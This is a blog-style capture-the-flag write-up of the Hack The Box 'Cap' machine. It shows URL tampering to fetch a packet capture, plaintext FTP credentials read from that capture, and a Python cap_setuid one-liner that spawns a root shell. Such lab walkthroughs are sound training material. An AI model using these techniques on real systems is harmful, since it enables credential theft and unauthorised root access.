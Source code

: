```yaml
---
layout: post
title: "HTB - Cap"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```


I've just completed CAP from HTB! In my opinion, CAP is a rather easy and straight forward box that can be completed fairly quickly (If you know what to look for!). Here's a quick writeup on how I went about solving this box

<!--more-->

## HTB - Cap
**Box** : Cap
**IP Address** : 10.10.10.245
**Operating System** : Linux

**Reflections**:
- Learn how to use filter out information using wireshark! 
- `setuid` is KING! ENOUGH SAID :-)

### Enumeration
As usual we will run our good ol' Nmap to identify the services and the OS operating behind each ports. For this box, it is fairly straight forward with only 3 open ports - `21`, `22` and `8081`

Since ports `21` and `22` are ports belonging to FTP and SSH servers respectively, I will start off with the webserver first. 

The website is a fairly simple website that looks like a security dashboard belonging to a user named `Nathan`. The `IP Config` and `Network Status` does not contain any fascinating information that catches my eye, however the `security snapshot` does allow me to download a PCAP file. Furthurmore, I've noticed that I am able to download a few PCAP files by modifying the URLs from `/data/0` to `/data/1`....

![Security Snapshots](../assets/cap/securitysnapshot.png)

We will then proceed to view the PCAP files that we have downloaded. Most of the PCAP files do not contain any interesting information, but the PCAP file downloaded from `http://10.10.10.245/data/0` does contain some interesting information

Initally, I focused on looking at the HTTP packets from wireshark to find exploitable information, but it turns out that the information is hidden in FTP protocol and the credentials are being exchanged in PLAINTEXT!!!
![FTP wireshark packets](../assets/cap/ftp.png)

### Obtaining user flag
Now we will just login to the FTP server using the credentials obtained earlier and download the `user.txt` file to our local server.

```bash    
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```

### Obtaining the system/root flag
Remembering that we still have an SSH server, let's try to SSH into the server, in hopes that we can somehow obtain root privileges by just logging in. Unfortunately, reality strikes us hard (NOTHING NEW! LIFE GOES ON)

So what's next? First, I decided to look for executables or programs in that can run `root` permissions without passwords using `sudo -l` but again, to no avail.

```code
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```

As they always say, Third Time's the charm! On my third attempt, I've decided to search for sudo permissions and SUID binaries that could possibly help us escalate privileges and obtain root shells. This time, I've hit jackpot!

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```

Here, we noticed that `python3.8` actually has a `setuid` command that can allow us to escalate to UID 0 and obtain the root shell. From there, we will be able to obtain the system/root flag.

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```